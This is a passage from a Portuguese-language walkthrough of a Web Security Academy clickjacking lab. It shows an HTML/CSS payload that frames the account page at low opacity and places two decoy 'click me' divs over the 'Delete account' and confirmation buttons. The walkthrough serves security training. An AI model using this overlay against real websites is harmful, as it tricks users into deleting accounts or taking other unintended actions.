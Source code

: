 portanto será necessário que o usuário clique nos dois botões para que a conta seja deletada.

O laboratório disponibiliza um `exploit server` onde é possível fazer o ataque:

![server](url_server.png)

No campo `Body` do `exploit server`, iremos colocar o seguinte código:

```html
    <style>
        iframe {
            position:relative;
            width:500px;
            height: 700px;
            opacity: 0.3;
            z-index: 2;
        }
    .firstClick, .secondClick {
            position:absolute;
            top:580px;
            left:40px;
            z-index: 1;
        }
    .secondClick {
            top:380px;
            left:215px;
        }
    </style>
    <div class="firstClick">Click me first</div>
    <div class="secondClick">Click me next</div>
    <iframe src="https://0a9800cc03846ba6c01e0a09001400cd.web-security-academy.net/my-account"></iframe>

```
Nesse laboratório usaremos duas `divs` para que o usuário clique nos dois botões, e assim, a conta seja deletada.

O primeiro passo é fazer com que a `<div class="firstClick">Click me first</div>` fique sobre o botão `"Delete account"`, e assim, quando o usuário clicar na div, o evento de clique será enviado para o botão `"Delete account"`, induzindo o usuário a deletar sua conta.
